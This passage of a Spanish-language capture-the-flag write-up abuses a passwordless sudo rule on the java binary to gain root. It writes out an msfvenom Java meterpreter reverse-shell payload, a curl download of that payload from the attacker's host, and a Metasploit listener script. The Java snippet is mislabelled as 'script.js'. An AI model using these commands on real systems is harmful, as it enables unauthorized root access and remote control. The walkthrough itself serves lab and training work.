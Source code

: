 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for pinguinazo on 4dd090c078de:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pinguinazo may run the following commands on 4dd090c078de:
    (ALL) NOPASSWD: /usr/bin/java
```

Vemos que podemos ejecutar el binario `java` como el usuario `root`, por lo que haremos lo siguiente:

Primero crearemos un archivo en `JAVA` de la siguiente forma:

> script.js

```js
public class Exploit {
    public static void main(String[] args) {
        try {
            Runtime.getRuntime().exec("/bin/bash");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Ahora teniendo como `sudo` el binario `java` podremos ejecutarlo como el usuario `root` y con ello obtendremos una `shell` como `root`.

> Maquina host

```shell
msfvenom -p java/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f jar -o Exploit.jar
```

Y esta aplicacion que nos ha generado nos lo tendremos que pasar a la maquina victima de la siguiente forma:

```shell
python3 -m http.server
```

Y ahora en la maquina victima nos la descaragremos de la siguiente forma:

```shell
cd /tmp
curl -O http://<IP>:8000/Exploit.jar
```

Ahora antes de ejecutarlo, nos pondremos a la escucha desde `metasploit` con el siuginete archivo para que se haga de forma automatica:

> listener.rc

```
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```
